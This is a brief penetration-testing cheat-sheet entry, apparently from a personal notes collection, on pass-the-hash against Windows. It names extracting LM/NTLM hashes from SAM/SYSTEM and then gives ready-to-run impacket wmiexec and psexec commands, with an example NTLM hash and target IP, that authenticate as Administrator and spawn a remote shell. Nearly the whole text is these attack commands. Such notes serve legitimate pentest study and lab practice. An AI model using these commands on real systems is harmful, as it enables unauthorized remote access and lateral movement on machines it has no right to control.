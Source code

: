 Hash required: LM, NTLM
Method: [[Extract hash from SAM,SYSTEM]], or use found hashes. Confirm type with hash-identifier.

Connect to machine using impacket's wmiexec.py:
```
cp /usr/share/doc/python3-impacket/examples/wmiexec.py . // Default location on Parrot OS
python3 wmiexec.py -hashes LM_HASH:NTLM_HASH USER@TARGET_IP   // Spawns a semi-interactive Windows shell

OR 
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
OR
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
Note: Don't forget to replace USER with admin when using admin hashes

Alternatively, use WinRM
